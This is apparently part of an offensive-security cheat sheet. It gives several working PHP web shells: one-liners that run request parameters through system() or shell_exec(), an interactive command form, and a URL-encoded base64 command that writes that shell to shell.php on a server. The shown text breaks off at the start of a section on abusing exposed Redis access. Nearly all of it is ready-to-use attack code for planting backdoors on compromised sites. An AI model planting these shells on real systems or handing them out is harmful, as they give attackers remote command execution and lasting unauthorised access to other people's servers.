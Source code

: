 ## Web shells

PHP one liner:

`<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>`

Tighter: 

`<?php echo shell_exec($_GET['e'].' 2>&1'); ?>`

No quotes:

`<?php system($_GET[1]); ?>`

PHP interactive shell:

```
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
<script>document.getElementById("cmd").focus();</script>
```

shell above emitted to a file via base64:

```
echo %50%47%5a%76%63%6d%30%67%62%57%56%30%61%47%39%6b%50%53%4a%48%52%56%51%69%49%47%35%68%62%57%55%39%49%6a%77%2f%63%47%68%77%49%47%56%6a%61%47%38%67%59%6d%46%7a%5a%57%35%68%62%57%55%6f%4a%46%39%54%52%56%4a%57%52%56%4a%62%4a%31%42%49%55%46%39%54%52%55%78%47%4a%31%30%70%4f%79%41%2f%50%69%49%2b%43%6a%78%70%62%6e%42%31%64%43%42%30%65%58%42%6c%50%53%4a%55%52%56%68%55%49%69%42%75%59%57%31%6c%50%53%4a%6a%62%57%51%69%49%47%6c%6b%50%53%4a%6a%62%57%51%69%49%48%4e%70%65%6d%55%39%49%6a%67%77%49%6a%34%4b%50%47%6c%75%63%48%56%30%49%48%52%35%63%47%55%39%49%6c%4e%56%51%6b%31%4a%56%43%49%67%64%6d%46%73%64%57%55%39%49%6b%56%34%5a%57%4e%31%64%47%55%69%50%67%6f%38%4c%32%5a%76%63%6d%30%2b%43%6a%78%77%63%6d%55%2b%43%6a%77%2f%63%47%68%77%43%69%41%67%49%43%42%70%5a%69%68%70%63%33%4e%6c%64%43%67%6b%58%30%64%46%56%46%73%6e%59%32%31%6b%4a%31%30%70%4b%51%6f%67%49%43%41%67%65%77%6f%67%49%43%41%67%49%43%41%67%49%48%4e%35%63%33%52%6c%62%53%67%6b%58%30%64%46%56%46%73%6e%59%32%31%6b%4a%31%30%70%4f%77%6f%67%49%43%41%67%66%51%6f%2f%50%67%6f%38%4c%33%42%79%5a%54%34%4b%50%48%4e%6a%63%6d%6c%77%64%44%35%6b%62%32%4e%31%62%57%56%75%64%43%35%6e%5a%58%52%46%62%47%56%74%5a%57%35%30%51%6e%6c%4a%5a%43%67%69%59%32%31%6b%49%69%6b%75%5a%6d%39%6a%64%58%4d%6f%4b%54%73%38%4c%33%4e%6a%63%6d%6c%77%64%44%34%3d | base64 -d > shell.php
```

## Redis trick

if you have access to redis (port 6379) and a handy reachable location (e.g. if you know a user and have port 22, or a website you know or can guess the dir of), the following technique (from one of redis' authors!) can work:
